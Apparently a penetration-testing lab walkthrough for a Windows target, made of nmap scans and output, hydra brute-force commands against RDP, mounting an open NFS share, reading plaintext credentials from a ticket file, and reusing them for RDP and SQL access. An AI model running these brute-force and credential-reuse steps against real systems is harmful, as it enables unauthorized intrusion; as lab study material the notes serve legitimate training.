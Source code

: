 # General Scan

nmap -sV -oA nmap $TARGET --stats-every=5s

PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

111/2049 : NFS
135 : WMI
139/445 : SMB
3389 : WS-Management protocol

# RDP Scan

nmap -sV -sC $TARGET -p3389 --script rdp*

"PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2023-10-21T16:01:59+00:00
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

nmap -sV -sC $TARGET -p3389 --packet-trace --disable-arp-ping -n

hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt $TARGET rdp

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $TARGET rdp

# NFS Scan

sudo nmap --script nfs* $TARGET -sV -p111,2049

PORT     STATE SERVICE VERSION
111/tcp  open  rpcbind 2-4 (RPC #100000)
| nfs-showmount: 
|_  /TechSupport 
| nfs-ls: Volume /TechSupport
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID         GID         SIZE   TIME                 FILENAME
| rwx------   4294967294  4294967294  65536  2021-11-11T00:09:49  .
| ??????????  ?           ?           ?      ?                    ..
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283649.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283650.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283651.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283652.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283653.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283654.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:29  ticket4238791283655.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:29  ticket4238791283656.txt
|_
| nfs-statfs: 
|   Filesystem    1K-blocks   Used        Available   Use%  Maxfilesize  Maxlink
|_  /TechSupport  41312252.0  17078040.0  24234212.0  42%   16.0T        1023
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
2049/tcp open  mountd  1-3 (RPC #100005)
| nfs-showmount: 
|_  /TechSupport 

# NFS Mount

showmount -e $TARGET
mkdir target-NFS
sudo mount -t nfs $TARGET:/ ./target-NFS/ -o nolock
cd target-NFS
tree .
sudo su
cd TechSupport/
ls -l

-rwx------ 1 nobody 4294967294 1305 Nov 10  2021 ticket4238791283782.txt

vi ticket4238791283782.txt

user="alex"
password="lol123!mD"

# Password reuse

xfreerdp /u:alex /p:"lol123!mD" /v:$TARGET

OK with Remmina !

C:\Users\alex>cd devshare

C:\Users\alex\devshare>type important.txt
sa:87N1ns@slls83

Account sa failed on SQL Management Studio

SQL Management Studio : Run As Administrator
87N1ns@slls83

SELECT * FROM .accounts
SELECT * FROM devsacc

lnch7ehrdn43i7AoqVPK4zWR